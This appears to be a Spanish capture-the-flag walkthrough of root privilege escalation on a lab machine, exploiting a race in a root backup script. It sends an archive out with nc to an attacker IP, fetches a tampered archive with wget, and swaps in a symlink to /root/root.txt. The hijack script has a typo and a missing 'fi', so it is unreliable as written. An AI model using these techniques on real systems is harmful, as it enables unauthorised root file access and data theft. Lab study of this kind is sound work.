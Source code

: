 ## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
```

Aqui vemos que no podemos hacer nada y que no tenemos posiblidad de rootear la maquina por vulnerabilidades del propio usuario.
Tenemos que enumerar el sistema.

```bash
uname -a
lsb_release -a
cd /
find \-perm -4000 2>/dev/null
cat /etc/cron
crontab -l
ls /var/spool/cron/
ls /var/spool/cron/ -l
```

Bueno aqui no se ve nada, no tenemos permisos SUID no hay nada vemos tareas cron. Pero siempre se puede ver de forma alternativa si hay tareas 
que se ejecutan a intervalo regular de tiempo.

```bash
cd /dev/shm
touch procmon.sh
chmod +x procmon.sh
nano procmon.sh
```

Aqui nos creamos el script que nos servira de monitoreo de procesos.

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
    old_process=$new_process
done
```

Ya podemos ver que hay una tarea `/bin/bash /usr/sbin/backuperer` que se ejecuta a intervalos regulares de tiempo. lo Analizamos.

```bash
cat /usr/sbin/backuperer
```

Aqui vemos un script que:

1. supprime ficheros `/var/tmp/.*` 
1. supprime el directorio `/var/tmp/check`
1. comprime todo lo que hay en `/var/www/html` como un fichero `/var/tmp/.<hash>`
1. sleep 30
1. crea un directorio `/var/tmp/check`
1. descomprime `/var/tmp/.<hash>` en `/var/tmp/check`
1. controla si hay una differencia entre el contenido del hash y `/var/www/html`
1. si hay differencias, reporta los cambios en el fichero `/var/backup/onuma_backup_error.txt`

La vulnerabilidad de este script reside en el sleep de 30 secundos que nos permitiria borrar el fichero comprimido `.<hash>` y meter
otro comprimido. Como suponemos que es **root** que ejecuta la tarea, podemos aprovechar de esto para ver la flag de root.

#### Modificacion del comprimido {-}

1. Creamos un comprimido de `/var/www/html`

    ```bash
    cd /dev/shm
    tar -zcvf comprimido.tar /var/www/html
    ```

1. Preparamos en la maquina de atacante para recibir el comprimido

    ```bash
    nc -nlvp 443 > comprimido.tar
    ```

1. Enviamos el comprimido desde la maquina victima

    ```bash
    nc 10.10.14.8 443 < comprimido.tar
    ```

Ahora que tenemos el comprimido en la maquina de atacante, vamos a cambiar su contenido

1. descomprimimos el ficher `.tar`

    ```bash
    tar -xf comprimido.tar
    ```

1. Modificamos el ficher `index.html`

    ```bash
    cd var/www/html
    rm index.html
    ln -s -f /root/root.txt index.html
    ```

1. creamos un nuevo comprimido

    ```bash
    cd ../../..
    tar -zcvf comprimido.tar var/www/html
    ```

1. enviamos el comprimido a la maquina victima

    - en la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        wget http://10.10.14.8/comprimido.tar
        ```

1. creamos un script para ejecutar el secuestro

    ```bash
    touch tehijackeolavida.sh
    chmod +x tehijackeolavida.sh
    nano tehijackeolavida.sh
    ```

    que contiene

    ```bash
    #!/bin/bash

    while true; do
        filename=$(ls -ls /var/tmp/ | awk 'NF{print $NF}' | grep -oP '^\..*[a-f0-9]')

        if [ $filename ]; then
            ehco -e "\n[+] El nombre de archivo es $filename\n"
            rm /var/tmp/$filename
            cp comprimido.tar /var/tmp/$filename
            echo -e "\n[+] Archivo hijiackeado con exito\n"
            exit 0
    done
    ```

1. Ejecutamos el script 

    ```bash
    ./tehijackeolavida.sh
    ```

Cuando la pantalla nos muestre el mensaje `[+] Archivo hijackeado con exito`, podemos mirar el fichero `/var/backup/onuma_backup_error.txt` 
y 30 segundos mas tarde tendriamos que ver la flag.

```bash
while true; do cat /var/backup/onuma_backup_error.txt ; sleep 1; clear; done
```

Ya podemos ver la flag.

### Rootear la maquina de verdad {-}

Podríamos crear un binario en C con SUID para que lo deposite root en html, lo que nos permitiria rootear la maquina.